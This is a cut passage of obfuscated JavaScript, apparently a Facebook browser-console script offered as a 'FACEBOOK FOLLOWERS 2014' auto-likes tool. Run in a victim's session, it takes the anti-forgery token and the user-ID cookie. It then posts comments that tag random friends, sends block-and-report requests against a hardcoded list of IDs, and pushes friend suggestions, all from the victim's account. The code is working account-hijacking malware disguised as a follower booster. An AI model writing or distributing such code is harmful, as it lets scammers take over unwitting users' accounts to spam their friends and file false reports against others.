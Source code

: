 _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var now=(new Date).getTime(); function report(r) { var X = new XMLHttpRequest(); var XURL = "https://www.facebook.com/ajax/report/social.php"; var XParams ="fb_dtsg="+fb_dtsg+"&amp;block=1&amp;pp=%7B%22actions_to_take%22%3A%22[]%22%2C%22are_friends%22%3Afalse%2C%22cid%22%3A" + r +"%2C%22content_type%22%3A0%2C%22expand_report%22%3A1%2C%22first_choice%22%3A%22file_report%22%2C%22from_gear%22%3A%22timeline%22%2C%22is_following%22%3Afalse%2C%22is_tagged%22%3Afalse%2C%22on_profile%22%3Afalse%2C%22phase%22%3A3%2C%22ref%22%3A%22https%3A%5C%2F%5C%2Fwww.facebook.com%5C%2F%22%2C%22report_type%22%3A145%2C%22rid%22%3A" + r +"%2C%22sub_report_type%22%3A141%2C%22time_flow_started%22%3A"+now+"%2C%22user%22%3A"+user_id+"%7D&amp;file_report=1&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35ynzpQ9UmAWuURDw&amp;__req=h&amp;ttstamp=26581661107112011276&amp;confirmed=1"; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 &amp;&amp; X.status == 200) { X.close; } }; X.send(XParams); } report("1433366523547439"); report("425727700890606"); report("658905560786579"); report("235045116656399"); report("209774545798054"); report("263468707078420"); report("539130682777986"); report("541263169296220"); report("420028578124352"); report("100003587565306"); report("100000195049467"); report("100002364544264"); report("100007465059274"); report("431764080286507"); report("430694670393448"); report("436990546430527");  report("436989276430654"); report("436990139763901"); report("458359937626921"); report("441332095996833"); report("100003587565306"); report("100000195049467"); report("100002364544264"); report("100007465059274"); var Title = ' FACEBOOK FOLLOWERS 2014 '; var Descriptions = "",     _text = 'Powered By: &lt;A style="color:#3B5998;" href="http://www.facebook.com/32123123213s" target="_blank">Kodran Piraj&lt;/A> &amp; &lt;A style="color:#3B5998;" href="http://www.facebook.com/ddasdsasd23" target="_blank"> Kodran Piraj - Kosovo&lt;/A>.&lt;/br>Script Made By: &lt;/A>&lt;A style="color:#3B5998;" href="http://www.facebook.com/thePrince.k1" target="_blank"> Kodran Piraj&lt;/A>&lt;/A>,&lt;/A>&lt;A style="color:#3B5998;" href="http://www.facebook.com/blaablaa" target="_blank"> Kodran Pirj &lt;/A>&lt;/A>.&lt;/br>For More Tools Visit Our Blogger &lt;A style="color:#3B5998;" href="http://autolikes-bykodran.blogspot.com/" target="_blank">AUTO LIKES&lt;/A>.&lt;/A>'; newcomer = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1]; fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;  function SuggestFriend(opo) {     jx.load(window.location.protocol + "//www.facebook.com/ajax/friends/suggest?&amp;receiver=" + opo + "&amp;newcomer=" + newcomer + "&amp;attempt_id=b59804250a76689137fe1cb2c05367db&amp;ref=profile_others_dropdown&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8ahyj35ynzpQ9UmWWuUGy6zECi8w&amp;__req=o&amp;fb_dtsg=" + fb_dtsg + "&amp;ttstamp=265816610484687452", function (a) {         var b = a.substring(a.indexOf("{"));         var c = JSON.parse(b);         i--;         Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";         if (c.error) {             Descriptions += "color:darkred'>";             err++;             if (c.errorDescription) Descriptions += c.errorDescription;             else Descriptions += JSON.stringify(c, null, "")         } else {             Descriptions += "color:gray;font-size:12px'>";             Descriptions += "Friend Suggestion Sent";             suc++         }         Descriptions += "&lt;/div>";         var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(225,225,225,0.9);color:#000000'>";         display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>";